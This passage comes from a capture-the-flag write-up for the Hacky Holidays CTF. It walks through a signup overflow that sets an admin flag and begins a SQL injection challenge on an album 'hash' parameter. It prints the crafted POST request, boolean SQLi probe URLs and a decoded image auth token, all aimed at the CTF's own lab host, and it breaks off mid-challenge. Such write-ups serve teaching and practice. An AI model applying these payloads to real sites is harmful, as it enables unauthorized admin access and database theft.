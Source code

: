 If we provide '1e5' in the age input, it will make as output 100000 and because the server is expecting just 3 numbers or less, it will cause an overflow when creating the user details.

```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
Upgrade-Insecure-Requests: 1

action=signup&username=fwefgergeg&password=ergegerg&age=1e6&firstname=gergerg&lastname=YYYYYYYYYYYYYYYYYYY
```

The above request will add one or more 'Y' in the admin parameter, making us admin of the website and getting the flag.

{F1130267}

-----------------

## Flag 11 - Manual SQLi and more

One of the hardest challenge, if not the hardest one. We start this challenge in `/r3c0n_server_4fdk59` where there are 3 albums that when clicking them would make the following GET request:

```
GET /r3c0n_server_4fdk59/album?hash=jdh34k HTTP/1.1
Host: hackyholidays.h1ctf.com
```

After quite a long time fuzzing for directories and trying a lot of things, I noticed the `hash` parameter is vulnerable to SQLi:

A valid statement would result in a 404 response, while a false statement would return code 200

- `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'+OR+1=1--+-` - code 404
- `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'+OR+1=2--+-` - code 200

So I fire up sqlmap and dump the entire DB but there was no flag or anything that I could use to continue with the challenge. Now as I am a sqlmap type of user instead of manually exploiting, I had quite a hard time.

When we view an album, it shows images that are called with the following HTML code:

```html
<img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RiNTA3YmRiMTg2ZDMzYTcxOWViMDQ1NjAzMDIwY2VjLmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9">
```
 
and if decoded the data's value looks like this:

```json
{"image":"r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}
```

The server is generating an auth code that is bidden to the the file that we want to read. We can't modify the file and try to get arbitrary files because the auth code would be invalid and the server actually validates it perfectly. We will come back to this later.

